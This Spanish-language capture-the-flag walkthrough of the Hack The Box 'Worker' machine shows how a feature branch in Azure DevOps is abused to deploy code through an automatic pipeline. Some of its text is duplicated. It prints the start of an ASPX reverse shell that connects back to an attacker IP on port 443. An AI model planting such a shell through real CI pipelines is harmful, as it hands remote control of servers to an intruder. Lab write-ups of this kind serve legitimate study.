 Si navigamos en la web podemos ver multiples repositorios.

```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
    knitr::include_graphics("images/Worker-repos.png")
```

Lo que nos llama la atencion aqui es el echo que hay un repositorio llamado dimension, y como existe un dominio `dimension.worker.htb`, pensamos que
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio `alpha.worker.htb` en el `/ect/hosts` y que miramos con
el firefox a esta url vemos el proyecto. 

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando 
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)








## Vulnerability Assessment {-}


Si navigamos en la web podemos ver multiples repositorios.

```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
    knitr::include_graphics("images/Worker-repos.png")
```

Lo que nos llama la atencion aqui es el echo que hay un repositorio llamado dimension, y como existe un dominio `dimension.worker.htb`, pensamos que
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio `alpha.worker.htb` en el `/ect/hosts` y que miramos con
el firefox a esta url vemos el proyecto. 

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando 
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le vamos a poner un codigo malicioso.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Azure DevOps {-}

Una vez la nueva rama creada, le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.14.7"; //CHANGE THIS
            int port = 443; ////CHANGE THIS
                
        CallbackShell(host, port);
```